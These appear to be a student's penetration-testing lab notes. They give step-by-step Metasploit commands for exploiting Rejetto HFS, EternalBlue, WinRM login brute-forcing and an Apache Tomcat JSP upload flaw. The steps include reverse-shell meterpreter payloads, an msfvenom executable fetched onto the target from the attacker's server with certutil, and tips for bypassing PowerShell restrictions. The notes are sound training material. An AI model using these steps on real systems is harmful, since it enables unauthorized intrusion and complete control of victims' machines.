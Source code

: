 

### Exploiting A vulnerable HTTP File server 

Http File server
- Web server that is designed for file & document sharing 
	- you can only host files (not websites etc)
	- webserver can be used for files and doc but can also be utilized to host a website
- HTTP file servers run on port 80 and use HTTP protocol for underlying communication 
- Rejetto HFS is a popular free and open source HTTP file server that can be setup on Windows and Linux 
- Rejetto HFD V2.3 is vulnerable to remote command and execution attacks 
- MSF has an exploits module that we can utilize to gain access to the target system hosting the HFS 
  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds

1. start up `postgreql` database 
2. start up `msfconsole` 
3. create workspace: `workspace -a HFS`
4. set up global variable: `setg rhosts target `
5. start with nmap scan: `db_nmap -sS -sV -O target ` the results will be stored in workspace 
6. directly search in msfconsole for module: `search type:exploit name:rejetto `
7. `use  exploit/windows/http/rejetto_hfs_exec ` -> `run` 
8. We can set payload to: `set payload windows/x64/meterpreter/reverse_tcp `
9. set `LPORT` and `LHOST` -> `run` 


### Exploiting the Windows MS17-010 SMB Vulnerability 
- the name of the exploit is EternalBlue 
- EternalBlue is a collection of Windows vulnerabilities and exploits that allow attackers to remotely execute arbitrary code and gain access to a Windows system and consequently the network that the target system is part of 
- Takes advantage of vulnerability in Windows SMBv1 
- used in wannacry attack 
- Eternal Blue has MSF auxiliary module that can be used to check if a target system is vulnerable 
- Important: The Eternal Blue exploit will give us a *priviliged* meterpreter session on target system instead of a standard non-priviliged meterpreter session. This means complete control over the target system 

1) `msfconsole` 
2) create `workspace` 
3) setg rhosts
4) `db_nmap -sS -sV -O target` 
5) `services` (show the identified services in nmap)
6) find module that can see if system is vulnerable: `search type: auxiliary name: EternalBlue`
7) `use aux/scanner/smb/smb_ms17_010 `
8) if the results indicate that the system is vulnerable, look for the exploit: `search type:exploit name:EternalBlue ` --> `exploit/windows/smb/ms17_010_eternalblue`
9) check priviliged: `getuid` 
   (NT) AUTORITY SYTEM = highest priviliged possible (elevated meterpreter session no need for priviliged escalation)


### Exploiting WinRM (Windows Remote Management Protocol)

- WinRM is used for: 
	- Remotely access and interact with Windows hosts on a local network 
	- Remotely access and execute commands on Windows systems on the internet 
	- Manage and configure Windows system remotely 
- uses tcp port 5985 and 5986 
- Exploiting WinRM
	- WinRM implements access control and security for communication between systems through various forms of authentication 
	- Utilize the MSF to identify WinRM users and their passwords as well as execute commands on the target system 
	- Utilize a MSF WinRM exploit module to obtain a meterpreter session on the target system 


1) `msfconsole` 
2) create `workspace` 
3) setg rhosts
4) `db_nmap -sS -sV -p- -O target` 
5) `services`  (port 5985 of 5986 is winrm)
6) check authentication methods supported on target: `search type: auxiliary name: winrm` 
7) `use aux/scanner/winrm/winrm_auth_methods` --> `run` 
   ![[Pasted image 20230824215722.png]]
	Negotiate protocol supported, basic protocol supported means that we can do a bruteforce on the username and passwords. 
8) prepare the bruteforce: `search winrm_login` -> `use auxiliary/scanner/winrm/winrm_login `
	1) set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
	2) set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 
9) when you have a hit on bruteforce, we will try to use the credentials `search winrm_cmd ` 
	1) `use auxiliary/scanner/winrm/winrm_cmd `
	2) `set USERNAME administrator `
	3) `set PASSWORD tinkerbell `
	4) specify command to run on target system to confirm that we have access: `set CMD whoami`
10) get meterpreter session through module: winrm_script 
	1) use exploit/windows/winrm/winrm_script_exec 
	2) set passwords,targetip,targeturi,username,lhost,lport 


![[Pasted image 20230824220529.png]]
When you have an issue with runtime -> set the force VBS (visual basic option) instead of the powershell command stager: `set FORCE_VBS true `. This can be useful if PowerShell is restricted or if VBS is more likely to bypass security controls on the target system. VBS is a scripting language developed by Microsoft. It's often used for administrative tasks and automation on Windows systems. In the context of penetration testing, it can be a viable alternative to PowerShell for executing commands or scripts on a target Windows machine. **PowerShell Command Stager**: PowerShell is a powerful scripting language on Windows systems. A "command stager" in Metasploit is a technique for delivering and executing payloads. However, in some scenarios, PowerShell may be restricted or blocked by security measures on the target system. 




###  Exploiting Vulnerable Apache Tomcat Web server 

- Apache Tomcat is open source Java servlet web server 
- used to build dynamic websites and web applications based on the Java software platform 
- Apache Tomcat uses HTTP protocol 
- Apache uses TCP port 8080 by default 

Difference between Apache and Apache Tomcat? 
- Standard Apache HTTP web server is used to host static and dynamic websites or web applications, typically developed in PHP 
- the Apache Tomcat web server is **primarily** used to host dynamic websites or web applications developed in Java. 
- Apache Tomcat V8.5.19 is vulnerable to remote code execution vulnerability that could potentially allow an attacker to upload and execute a JSP payload in order to gain remote access to the target server. 


1) `msfconsole` 
2) create `workspace` 
3) setg rhosts
4) `db_nmap -sS -sV -p- -O target` 
5) search for exploit for tomcat: `search type:exploit tomcat_jsp ` 
6) `use exploit/multi/http/tomcat_jsp_upload_bypass `
7) in options you do not see payload but when you type info you see more info about the payload. for this exploit you can only use a jsp (java) payload 
	`set payload java/jsp_shell_bind_tcp`
8) specify shell command - target is windows so we can use cmd: `set SHELL cmd`
	now we have access to target but not in meterpreter session but this is a command shell session. Lets out that in the background `control + z `
9) set up meterpreter session: 
	1) open new tab 
	2) generate payload with msfvenom (windows meterpreter): `msfvenom -p windows/meterpreter/reverse_tcp LHOSTS=kali LPORT=1234 -f exe > meterpreter.exe `
	3) set up simple webserver within current directory to host the files: `sudo python -m SimpleHTTPServer 80 `
	4) go back to previous windows (tomcat) with simple shell session and get the session back: `sessions` -> `sessions 1 ` 
		1) download the files on target system, hosted on webserver: `certutil -urlcache -f http://kali-ip/meterpreter.exe meterpreter.exe 
		2) check if file is downloaded on target: `dir` 
		3)  terminate the webserver after successfull download: control + c 
10) set up handler:
		1) create resource script: `vim handler.rc `
			1) `use multi/handler
			2) `set PAYLOAD windows/meterpreter/reverse_tcp `
			3) `set LHOST kali  ip` 
			4) `set LPORT 1234`
			5) `run` 
		2) `msfconsole -r handler.rc `
11) execute meterpreter payload on target system, in tomcat window run: `.\meterpreter.exe `
now you have an meterpreter session 




